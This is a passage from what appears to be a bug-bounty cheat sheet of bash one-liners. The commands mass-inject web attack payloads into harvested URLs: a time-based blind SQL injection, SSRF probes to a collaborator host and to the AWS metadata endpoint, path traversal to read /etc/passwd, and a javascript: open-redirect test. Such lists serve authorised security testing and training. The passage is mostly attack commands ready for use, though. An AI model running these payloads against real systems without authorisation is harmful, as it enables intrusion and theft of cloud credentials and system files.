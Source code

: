 #### Blind SQLi
```bash
# Time-based blind SQLi
cat urls.txt | gf sqli | xargs -I {} echo "{}' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--" | httpx -timeout 10
```

### 3. Server-Side Request Forgery (SSRF)

#### Basic SSRF
```bash
# Find SSRF parameters
cat urls.txt | gf ssrf | grep -E "(url|link|redirect|callback|webhook)"
```

#### Blind SSRF
```bash
# Use Burp Collaborator or interactsh
cat urls.txt | gf ssrf | xargs -I {} echo "{}http://your-collaborator.com"
```

#### AWS Metadata SSRF
```bash
# Test AWS metadata access
cat urls.txt | gf ssrf | xargs -I {} echo "{}http://169.254.169.254/latest/meta-data/"
```

### 4. Local File Inclusion (LFI)

#### Basic LFI
```bash
# Find file parameters
cat urls.txt | gf lfi | grep -E "(file|path|document|page|template)"
```

#### Path Traversal
```bash
# Test path traversal
cat urls.txt | gf lfi | xargs -I {} echo "{}../../../etc/passwd" | httpx -mr "root:x:"
```

### 5. Open Redirect

#### Basic Redirect
```bash
# Find redirect parameters
cat urls.txt | gf redirect | grep -E "(redirect|return|continue|url|next)"
```

#### JavaScript Redirect
```bash
# Test JavaScript redirects
cat urls.txt | gf redirect | xargs -I {} echo "{}javascript:alert(1)"
```

---